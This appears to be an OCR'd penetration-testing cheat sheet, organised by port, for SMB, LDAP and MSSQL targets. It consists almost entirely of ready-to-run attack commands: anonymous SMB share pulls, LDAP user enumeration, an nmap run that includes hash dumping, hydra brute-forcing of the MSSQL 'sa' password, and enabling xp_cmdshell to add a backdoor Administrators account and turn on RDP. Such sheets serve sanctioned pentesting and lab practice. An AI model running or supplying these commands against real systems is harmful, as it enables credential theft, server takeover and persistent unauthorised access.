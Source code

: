 Connecting to share without password(Anonymous login)
```
smbclient -N //$ip/share
&gt;recurse on
&gt;prompt off
&gt;cd directory
&gt;mget directory
```

Login with Password
```
smbclient -U username //$ip/share
```

## Port 389(LDAP) 
```
ldapsearch -h $ip -x -s base namingcontexts
ldapsearch -h $ip -x -b "DC=cascade,DC=local" '(objectClass=person)' > persons
```

## Port 1433(MSSQL) 
Reference: https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

brute force for “SA” password
```
hydra -l sa -P password.txt -V $ip mssql
```

Connect to MSSQL Server:
```
sqsh -S server_address -U sa -P password
```
Enable xp_cmdshell:
```
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
```

Execute System Command:
```
xp_cmdshell 'net user byte bytepass /add'
go
xp_cmdshell 'net localgroup Administrators byte /add'
go
xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
go
```
